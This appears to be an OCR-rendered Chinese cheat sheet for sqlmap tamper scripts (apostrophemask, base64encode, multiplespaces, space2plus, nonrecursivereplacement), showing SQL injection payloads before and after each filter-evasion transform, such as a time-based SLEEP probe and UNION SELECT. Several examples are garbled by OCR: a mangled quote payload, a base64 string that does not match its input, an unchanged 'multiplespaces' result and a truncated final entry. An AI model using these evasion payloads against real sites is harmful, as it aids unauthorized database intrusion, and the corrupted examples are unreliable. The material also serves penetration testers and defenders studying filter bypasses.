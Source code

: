 
## 常用的tamper脚本

###  apostrophemask.py

作用：将引号替换为UTF-8,用于过滤单引号。

使用脚本前的语句为：

1 ANDT='1

使用脚本后，语句为：

1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

###  base64encode.py

作用：替换为base64编码。

使用脚本前的语句为：

###  ' AND SLEEP (5) #

使用脚本后，语句为：

MScgQU5EIFNMRUVQKDUplw= =

###  multiplespaces.py

作用：围绕SQL关键字添加多个空格。

使用脚本前的语句为：

1 UNION SELECT foobar

使用脚本后，语句为：

1 UNION SELECT foobar

###  space2plus.py

作用：用+号替换空格。

使用脚本前的语句为：

SELECT id FROM users

使用脚本后，语句为：

SELECT + id + FROM + users

###  nonrecursivereplacement.py

作用：作为双重查询语句，用双重语句替代预定义的SQL关键字（适用于非常弱的自定义过滤器，例如将SELECT替换为空）。

使用脚本前的语句为：

1 UNION SELECT 2-
